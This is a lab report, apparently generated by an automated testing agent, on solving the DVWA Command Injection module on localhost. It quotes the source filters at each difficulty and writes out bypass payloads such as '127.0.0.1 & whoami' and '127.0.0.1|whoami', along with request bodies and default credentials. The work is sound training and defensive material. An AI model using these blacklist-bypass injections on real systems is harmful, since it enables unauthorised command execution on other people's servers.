



# DVWA Command Injection 全自动求解报告

## 摘要

- 目标：`http://127.0.0.1/dvwa/`
- 模块：`Command Injection`
- 登录：`admin / password`
- 源码路径：`D:\phpStudy\PHPTutorial\WWW\DVWA`
- 难度进度：`low -> medium -> high -> impossible`
- 主执行时间：`2026-06-02T10:25:23+08:00` 至 `2026-06-02T10:25:50+08:00`，耗时 `26.373s`
- 报告整理完成时间：`2026-06-02 10:27:24 +08:00`
- 结论：`low`、`medium`、`high` 均可被无害本机命令 `whoami` 证明存在命令注入；`impossible` 对注入输入返回 `ERROR: You have entered an invalid IP.`，判定为防御级别。

本次没有使用公开 walkthrough payload 或模块 helper。先检查页面和源码，再根据源码过滤规则生成最小无害测试。所有测试均限定在本地 DVWA 页面，未使用破坏性命令、持久化、外连回调或非 DVWA 目标。

## 范围与环境

- 授权范围：本机 DVWA，`http://127.0.0.1/dvwa/`
- 模块路由：`POST /dvwa/vulnerabilities/exec/`
- 关键参数：`ip`、`Submit`；`impossible` 额外需要 `user_token`
- Cookie：通过 `security=<difficulty>` 控制难度
- 工具：
  - `PowerShell`：源码读取、目录创建、时间记录
  - `Python 3.11.3`
  - `requests 2.32.3`
  - `beautifulsoup4 4.13.4`
  - `Playwright`：自动截图
- 未使用 Burp/ZAP：当前请求模型简单，`requests` 能完整复现；Burp MCP 未作为可调用工具暴露，非阻塞。

## 难度进度

| 难度 | 状态 | 漏洞/防护点 | 请求数 | 耗时 | 关键证据 | 停止原因 |
|---|---|---|---:|---:|---|---|
| `low` | `solved_vulnerable` | 直接拼接 `ip` 到 `shell_exec('ping ' . $target)` | 6 | `8.971s` | `127.0.0.1 & whoami` 返回 `vin\31435` | 已证明命令注入 |
| `medium` | `solved_vulnerable` | 黑名单只移除 `&&` 和 `;`，漏掉单 `&` | 6 | `6.745s` | `127.0.0.1 && whoami` 被处理失败，`127.0.0.1 & whoami` 成功 | 已证明黑名单绕过 |
| `high` | `solved_vulnerable` | 黑名单移除 `&`、`;`、`| ` 等，但漏掉无空格管道 `|` | 6 | `6.673s` | `127.0.0.1 & whoami` 被处理失败，`127.0.0.1|whoami` 成功 | 已证明黑名单绕过 |
| `impossible` | `defended_not_vulnerable` | CSRF token + 四段数字 IP 校验，重组 IP 后执行 ping | 11 | `3.904s` | `127.0.0.1 & whoami` 和 `127.0.0.1|whoami` 均返回 `ERROR: You have entered an invalid IP.` | 防御有效，停止 |

总请求数：`31`，其中 `2` 个为登录初始化请求。

## 时间线

| 时间 | 阶段 | 工具 | 操作 | 结果 |
|---|---|---|---|---|
| `2026-06-02 10:21:41 +08:00` | 准备 | PowerShell | 记录时间，确认 Python/Playwright 可用 | `requests`、`bs4`、Playwright 均可用 |
| `10:23:07-10:23:25` | 截图 | Playwright helper | 捕获 `low/medium/high/impossible` 登录页、难度页、模块页 | 成功生成模块基础截图 |
| `10:24:57` | 初次执行 | generated harness | 运行低难度测试 | 发现正则过严导致误判；响应已含 `vin\31435` |
| `10:25:23` | setup | Python/requests | GET `login.php` 并 POST 登录 | 登录成功 |
| `10:25:23-10:25:32` | low | Python/requests | 设置 `security=low`，检查表单，提交基线与 `& whoami` | `whoami_output=vin\31435` |
| `10:25:32-10:25:39` | medium | Python/requests | 设置 `security=medium`，测试 `&&` 和单 `&` | 单 `&` 成功 |
| `10:25:39-10:25:46` | high | Python/requests | 设置 `security=high`，测试 `&` 与 `|whoami` | 无空格管道成功 |
| `10:25:46-10:25:50` | impossible | Python/requests | 设置 `security=impossible`，刷新 token，测试注入输入 | 均返回 invalid IP |
| `10:26:29-10:26:43` | proof screenshots | Playwright | 提交各难度 proof payload 并截图 | 成功生成 proof 截图 |

完整日志：`operation-log.jsonl`。

## 页面与请求模型

DVWA 登录：

```text
GET /dvwa/login.php
POST /dvwa/login.php
username=admin&password=password&Login=Login&user_token=<login token>
```

设置难度：

```text
GET /dvwa/security.php
POST /dvwa/security.php
security=<low|medium|high|impossible>&seclev_submit=Submit&user_token=<security token>
```

Command Injection 模块：

```text
POST /dvwa/vulnerabilities/exec/
ip=<test input>&Submit=Submit
```

`impossible` 额外字段：

```text
user_token=<fresh token>
```

基线成功标记：

```text
TTL=128
```

注入成功标记：

```text
vin\31435
```

防御失败标记：

```text
ERROR: You have entered an invalid IP.
```

说明：正常 ping 输出在响应中出现中文 Windows 命令行文本，但页面/终端显示存在编码替换字符；`TTL=128` 和 `whoami` 输出 `vin\31435` 为 ASCII，可稳定作为证据。

## 源码分析

入口文件 `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\index.php` 固定生成 POST 表单，字段为 `ip` 和 `Submit`。只有 `impossible.php` 会额外输出 `tokenField()`。

`low.php`：

- 第 5 行：`$target = $_REQUEST['ip'];`
- 第 10 行：Windows 分支直接执行 `$cmd = shell_exec('ping  ' . $target);`
- 第 18 行：命令输出写入 `<pre>{$cmd}</pre>`
- 漏洞原因：没有校验、转义或参数化执行，`ip` 被直接拼接到 shell 命令。

`medium.php`：

- 第 8-11 行：黑名单仅定义 `'&&' => ''` 和 `';' => ''`
- 第 14 行：`str_replace()` 做字符串替换
- 第 19 行：仍拼接到 `shell_exec('ping  ' . $target)`
- 漏洞原因：黑名单不完整，单个 `&` 没有被过滤。

`high.php`：

- 第 5 行：`trim($_REQUEST['ip'])`
- 第 8-18 行：黑名单包括 `'||'`、`'&'`、`';'`、`'| '`、`'-'`、`'$'`、`'('`、`')'`、`` ` ``
- 第 21 行：使用 `str_replace()` 替换黑名单
- 第 26 行：仍拼接到 `shell_exec('ping  ' . $target)`
- 漏洞原因：过滤项是字符串黑名单，拦截了 `| ` 但没有拦截无空格管道 `|whoami`。

`impossible.php`：

- 第 5 行：检查 `user_token`
- 第 8-9 行：读取并 `stripslashes()` 输入
- 第 12 行：按 `.` 分割 IP
- 第 15 行：要求四段均 `is_numeric()` 且 `sizeof($octet) == 4`
- 第 17 行：把四段数字重新拼接为 IP
- 第 22 行：只把重组后的 IP 拼接到 ping
- 第 34 行：非法输入返回 `ERROR: You have entered an invalid IP.`
- 防御原因：分隔符 payload 无法满足四段数字 IP 校验，命令注入内容不会进入 shell 执行。

## 假设与测试设计

源码导出的假设：

1. `low` 未做过滤，Windows shell 的命令连接符 `&` 可触发第二条命令。
2. `medium` 删除 `&&` 和 `;`，应先证明 `&&` 被处理，再测试未过滤的单 `&`。
3. `high` 删除 `&` 与带空格管道 `| `，但可能漏掉无空格管道 `|whoami`。
4. `impossible` 应通过 token 和四段数字 IP 校验拒绝所有含分隔符输入。

测试输入均为本机无害命令：

```text
normal baseline:
ip=127.0.0.1&Submit=Submit

negative baseline:
ip=not_an_ip_20260602&Submit=Submit

low proof:
ip=127.0.0.1 & whoami&Submit=Submit

medium blocked probe:
ip=127.0.0.1 && whoami&Submit=Submit

medium proof:
ip=127.0.0.1 & whoami&Submit=Submit

high blocked probe:
ip=127.0.0.1 & whoami&Submit=Submit

high proof:
ip=127.0.0.1|whoami&Submit=Submit

impossible defense probes:
ip=127.0.0.1 & whoami&Submit=Submit&user_token=<fresh token>
ip=127.0.0.1|whoami&Submit=Submit&user_token=<fresh token>
```

工具选择：

- 用 `requests` 生成可重复、带 session 和 token 的请求 harness。
- 用 Playwright 捕获页面、难度设置和 proof 截图。
- 不使用 sqlmap/ffuf/IDA：本模块不是 SQL 注入、目录枚举或二进制逆向。
- 不使用 Burp：请求体简单，且报告已有 JSON 请求证据；代理不是必需条件。

## 执行证据

### Low

表单：

```json
{"method":"POST","action":"#","fields":["ip","Submit"]}
```

正常基线：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1&Submit=Submit
status=200 elapsed=3.185s markers=["ping_output"]
marker_context: TTL=128
```

异常基线：

```text
POST /dvwa/vulnerabilities/exec/
ip=not_an_ip_20260602&Submit=Submit
status=200 elapsed=2.431s markers=["no_known_marker"]
pre_text: Ping ... not_an_ip_20260602 ...
```

注入证明：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1 & whoami&Submit=Submit
status=200 elapsed=3.242s markers=["ping_output","whoami_output"]
whoami_output: vin\31435
```

截图：



### Medium

被过滤探针：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1 && whoami&Submit=Submit
status=200 elapsed=0.160s markers=["no_known_marker"]
pre_text: ����IJ��� whoami��
```

解释：源码删除 `&&` 后，输入变成类似 `127.0.0.1  whoami`，`whoami` 被 ping 当成异常参数，没有作为命令执行。

注入证明：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1 & whoami&Submit=Submit
status=200 elapsed=3.236s markers=["ping_output","whoami_output"]
whoami_output: vin\31435
```

截图：



### High

被过滤探针：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1 & whoami&Submit=Submit
status=200 elapsed=0.147s markers=["no_known_marker"]
pre_text: ����IJ��� whoami��
```

注入证明：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1|whoami&Submit=Submit
status=200 elapsed=3.139s markers=["whoami_output"]
whoami_output: vin\31435
pre_text: vin\31435
```

截图：


### Impossible

正常基线：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1&Submit=Submit&user_token=<fresh token>
status=200 elapsed=3.201s markers=["ping_output"]
marker_context: TTL=128
```

防御探针 1：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1 & whoami&Submit=Submit&user_token=<fresh token>
status=200 elapsed=0.038s markers=["invalid_ip_error"]
pre_text: ERROR: You have entered an invalid IP.
```

防御探针 2：

```text
POST /dvwa/vulnerabilities/exec/
ip=127.0.0.1|whoami&Submit=Submit&user_token=<fresh token>
status=200 elapsed=0.043s markers=["invalid_ip_error"]
pre_text: ERROR: You have entered an invalid IP.
```

截图：



## 截图记录

自动截图已成功生成。

模块页截图：

- `screenshots/low/module-low.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/module-impossible.png`

安全等级截图：

- `screenshots/low/security-low.png`
- `screenshots/medium/security-medium.png`
- `screenshots/high/security-high.png`
- `screenshots/impossible/security-impossible.png`

Proof 截图：

- `screenshots/proof/low-proof.png`
- `screenshots/proof/medium-proof.png`
- `screenshots/proof/high-proof.png`
- `screenshots/proof/impossible-proof.png`

截图命令示例：

```powershell
python 'C:\Users\31435\.codex\skills\dvwa-automated-testing\scripts\dvwa_screenshot.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --difficulty low --module-path 'vulnerabilities/exec/' --output-dir 'dvwa-results\command-injection-progression-20260602-102141\screenshots\low'
```

Proof 截图命令：

```powershell
python 'dvwa-results\command-injection-progression-20260602-102141\generated-harnesses\command_injection_proof_screenshots.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --output-dir 'dvwa-results\command-injection-progression-20260602-102141\screenshots\proof'
```

## 时间统计

| 阶段 | 请求数 | 耗时 | 说明 |
|---|---:|---:|---|
| 登录初始化 | 2 | 约 `0.075s` | GET 登录页 + POST 登录 |
| `low` | 6 | `8.971s` | 正常 ping、异常输入、`& whoami` |
| `medium` | 6 | `6.745s` | `&&` 被过滤，单 `&` 成功 |
| `high` | 6 | `6.673s` | `&` 被过滤，`|whoami` 成功 |
| `impossible` | 11 | `3.904s` | 每次提交前刷新 token，注入输入被拒绝 |
| 总计 | 31 | `26.373s` | 不含截图和报告撰写 |

截图耗时约 `2026-06-02T10:23:07+08:00` 至 `2026-06-02T10:26:43+08:00`，其中包含基础截图和 proof 截图两批。

## 结果

`low`：存在命令注入。用户输入直接拼接进 `shell_exec()`，`127.0.0.1 & whoami` 可执行第二条命令。

`medium`：存在命令注入。黑名单只删除 `&&` 和 `;`，未删除单个 `&`。

`high`：存在命令注入。黑名单删除 `&` 与 `| `，但没有删除无空格管道 `|`，`127.0.0.1|whoami` 可执行。

`impossible`：未发现可利用命令注入。服务端要求输入为四段数字 IP，并重组 IP 后执行；含命令分隔符的输入被拒绝，返回 `ERROR: You have entered an invalid IP.`。

## 修复建议

- 不要把用户输入拼接到 shell 命令中。
- 若必须执行系统命令，使用参数数组形式或安全库，避免经过 shell 解析。
- 对 IP 地址使用严格白名单校验，例如 `filter_var($ip, FILTER_VALIDATE_IP)`。
- 对命令参数使用 allowlist，而不是 blacklist。
- 保留 CSRF token，但不要把 token 当作命令注入的主要防线。
- 最小化 Web 服务账号权限，限制命令执行环境。
- 记录异常输入和命令执行错误，便于审计。

## 复现步骤

1. 打开 `http://127.0.0.1/dvwa/`。
2. 使用 `admin / password` 登录。
3. 进入 `DVWA Security`，设置 `low`。
4. 访问 `vulnerabilities/exec/`。
5. 在 `ip` 输入框提交 `127.0.0.1 & whoami`，预期看到 `vin\31435`。
6. 设置 `medium`，先提交 `127.0.0.1 && whoami`，预期不执行 `whoami`；再提交 `127.0.0.1 & whoami`，预期看到 `vin\31435`。
7. 设置 `high`，先提交 `127.0.0.1 & whoami`，预期不执行；再提交 `127.0.0.1|whoami`，预期看到 `vin\31435`。
8. 设置 `impossible`，提交 `127.0.0.1 & whoami` 或 `127.0.0.1|whoami`，预期看到 `ERROR: You have entered an invalid IP.`。

## 产物

- 主报告：`dvwa-results/command-injection-progression-20260602-102141/report.md`
- JSON 结果：`dvwa-results/command-injection-progression-20260602-102141/report.json`
- 操作日志：`dvwa-results/command-injection-progression-20260602-102141/operation-log.jsonl`
- 请求证据：`dvwa-results/command-injection-progression-20260602-102141/requests/`
- 主 harness：`dvwa-results/command-injection-progression-20260602-102141/generated-harnesses/command_injection_progression_harness.py`
- proof 截图脚本：`dvwa-results/command-injection-progression-20260602-102141/generated-harnesses/command_injection_proof_screenshots.py`
- 截图目录：`dvwa-results/command-injection-progression-20260602-102141/screenshots/`

主 harness 命令：

```powershell
$env:PYTHONIOENCODING='utf-8'; python 'dvwa-results\command-injection-progression-20260602-102141\generated-harnesses\command_injection_progression_harness.py' --out-dir 'dvwa-results\command-injection-progression-20260602-102141'
```

## 限制

- 未使用 Burp Proxy/MCP，因此没有 Burp HTTP history 截图；请求证据已用 JSON 文件保存。
- Windows 中文 ping 输出在 HTML/终端中存在编码替换字符；本报告使用稳定的 `TTL=128` 和 `vin\31435` 作为判据。
- `whoami` 输出与本地 Web 服务运行账号相关，本机结果为 `vin\31435`；其他环境可能不同。
- 仅测试无害本机命令输出，没有执行文件写入、外连、持久化或破坏性命令。

## 实验总报告可提取信息

### 实验结论

`low`、`medium`、`high` 均存在命令注入漏洞，可通过无害本机命令 `whoami` 得到输出 `vin\31435`。`impossible` 通过 CSRF token 和四段数字 IP 校验拒绝分隔符 payload，判定为无可利用命令注入漏洞。

### 各难度漏洞成因

- `low`：`D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\source\low.php` 第 5 行直接读取 `$_REQUEST['ip']`，第 10 行直接拼接到 `shell_exec('ping  ' . $target)`。
- `medium`：`medium.php` 第 8-11 行只过滤 `&&` 和 `;`，第 19 行仍执行拼接命令，单个 `&` 可绕过。
- `high`：`high.php` 第 8-18 行使用黑名单，过滤 `&` 和 `| `，但未过滤无空格 `|whoami`。
- `impossible`：`impossible.php` 第 5 行检查 token，第 12-17 行拆分并重组四段数字 IP，第 34 行对非法输入返回 `ERROR: You have entered an invalid IP.`。

### 解题步骤

1. GET `login.php` 解析 `user_token`。
2. POST `login.php`：`username=admin&password=password&Login=Login&user_token=<login token>`。
3. 逐级 POST `security.php` 设置 `security=low`、`medium`、`high`、`impossible`。
4. GET `vulnerabilities/exec/` 解析表单字段 `ip`、`Submit`，`impossible` 解析 `user_token`。
5. 提交正常基线 `ip=127.0.0.1&Submit=Submit`。
6. 根据源码过滤规则提交无害 proof payload。
7. 以响应中的 `vin\31435` 判断命令执行成功，以 `ERROR: You have entered an invalid IP.` 判断 `impossible` 防御生效。

### 使用工具与操作

- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\source\low.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\source\medium.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\source\high.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\exec\source\impossible.php'`
- `python 'dvwa-results\command-injection-progression-20260602-102141\generated-harnesses\command_injection_progression_harness.py' --out-dir 'dvwa-results\command-injection-progression-20260602-102141'`
- `python 'dvwa-results\command-injection-progression-20260602-102141\generated-harnesses\command_injection_proof_screenshots.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --output-dir 'dvwa-results\command-injection-progression-20260602-102141\screenshots\proof'`

### 核心 payload/测试输入

```text
low:
ip=127.0.0.1 & whoami&Submit=Submit

medium blocked probe:
ip=127.0.0.1 && whoami&Submit=Submit

medium proof:
ip=127.0.0.1 & whoami&Submit=Submit

high blocked probe:
ip=127.0.0.1 & whoami&Submit=Submit

high proof:
ip=127.0.0.1|whoami&Submit=Submit

impossible defense:
ip=127.0.0.1 & whoami&Submit=Submit&user_token=<fresh token>
ip=127.0.0.1|whoami&Submit=Submit&user_token=<fresh token>
```

### 关键截图

- `screenshots/proof/low-proof.png`
- `screenshots/proof/medium-proof.png`
- `screenshots/proof/high-proof.png`
- `screenshots/proof/impossible-proof.png`
- `screenshots/low/module-low.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/module-impossible.png`

### 复现步骤总结

1. 登录 DVWA：`admin / password`。
2. 设置 `low`，提交 `127.0.0.1 & whoami`，观察 `vin\31435`。
3. 设置 `medium`，提交 `127.0.0.1 && whoami` 验证被过滤，再提交 `127.0.0.1 & whoami`，观察 `vin\31435`。
4. 设置 `high`，提交 `127.0.0.1 & whoami` 验证被过滤，再提交 `127.0.0.1|whoami`，观察 `vin\31435`。
5. 设置 `impossible`，提交 `127.0.0.1 & whoami` 和 `127.0.0.1|whoami`，观察 `ERROR: You have entered an invalid IP.`。

### impossible/无解原因

`impossible` 使用 `user_token` 防 CSRF，并将输入按 `.` 拆成四段，要求四段全部 `is_numeric()` 且总段数为 4，然后只把重组后的 IP 传入 `ping`。含 `&` 或 `|` 的 payload 无法通过校验，服务端返回 `ERROR: You have entered an invalid IP.`，未到达可注入的 shell 执行路径。

### 辅助脚本

```text
dvwa-results/command-injection-progression-20260602-102141/generated-harnesses/command_injection_progression_harness.py
dvwa-results/command-injection-progression-20260602-102141/generated-harnesses/command_injection_proof_screenshots.py
```

### 起止时间和耗时

- 初始记录时间：`2026-06-02 10:21:41 +08:00`
- harness 开始：`2026-06-02T10:25:23+08:00`
- harness 结束：`2026-06-02T10:25:50+08:00`
- harness 耗时：`26.373s`
- proof 截图结束：`2026-06-02T10:26:43+08:00`
- 报告整理完成：`2026-06-02 10:27:24 +08:00`

### 人工验证关注点

- 确认 `security` Cookie 与页面底部显示的安全等级一致。
- `impossible` 每次提交都需要 fresh `user_token`。
- `high` 的关键绕过是 `127.0.0.1|whoami`，不要写成 `127.0.0.1 | whoami`，因为源码过滤的是带空格的 `| `。
- 成功标记以 `whoami` 输出 `vin\31435` 为准，不以 HTTP `200` 单独判断。
- 所有命令应保持本机无害输出验证，不执行写文件、删除、外连、持久化命令。
